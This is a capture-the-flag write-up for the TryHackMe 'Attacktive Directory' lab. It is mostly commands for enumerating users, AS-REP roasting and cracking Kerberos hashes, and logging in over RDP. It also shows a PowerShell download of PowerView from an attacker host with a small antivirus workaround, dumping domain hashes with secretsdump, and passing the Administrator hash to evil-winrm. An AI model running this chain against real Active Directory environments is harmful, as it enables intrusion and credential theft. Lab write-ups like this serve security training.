

---
---

# THM - Attacktive Directory

- NMAP


```bash
nmap -n -sV --script="ldap\* and not brute" 10.10.123.209

```


- Enumerate users with Kerbrute:

```bash
./kerbrute userenum --dc 10.10.123.209 -d spookysec.local userlist.txt -o validusers.txt

```
(Using the provided userlist to cut down on enumeration time)


- Cut fields:

```bash
cat validusers.txt | cut -d " " -f 8 > validusers_edited.txt

```


- ASRepRoasting:

```bash
impacket-GetNPUsers spookysec.local/ -users validusers_edited.txt -no-pass -dc-ip 10.10.123.209

```


- Copy hash to file (hash)

- Crack with hashcat:

```bash
hashcat -m 18200 --force -a 0 hash /usr/share/wordlists/rockyou.txt

```


Got credentials: **svc-admin : management2005**

- RDP:

```bash
xfreerdp /v:10.10.123.209 /u:svc-admin /p:management2005 /dynamic-resolution /cert:ignore

```


- Enumeration:

```bash
query user

```



Only us logged in

- Upload PowerView.ps1:

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/PowerView.ps1', 'C:\Users\svc-admin\PowerView.ps1')

```


**<u>AV Workaround for PowerView:</u>**

```bash
  sed '/<#/,/#>/d' PowerView.ps1 > new_powerview.ps1
```


```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/new_powerview.ps1 ', 'C:\Users\svc-admin\new_powerview.ps1 ')

```


Loaded the updated script but still doesn't run

Moving on...

- With credentials - Run enum4linux again:


- We have a share /backup  
  Connect with:

```bash
smbclient //10.10.173.147/backup -U thm-ad/svc-admin%management2005

```


- Looks like base64:

```bash
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d

```


- We can see that there is a domain user called backup - and we have the creds:
**backup@spookysec.local:backup2517860**

- There is a clue in the THM Task description:


- To dump hashes use:

```bash
impacket-secretsdump spookysec.local/backup:backup2517860@10.10.173.147 -dc-ip 10.10.173.147

```


- You can use the hash with evil-winrm to connect:

```bash
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.173.147

```


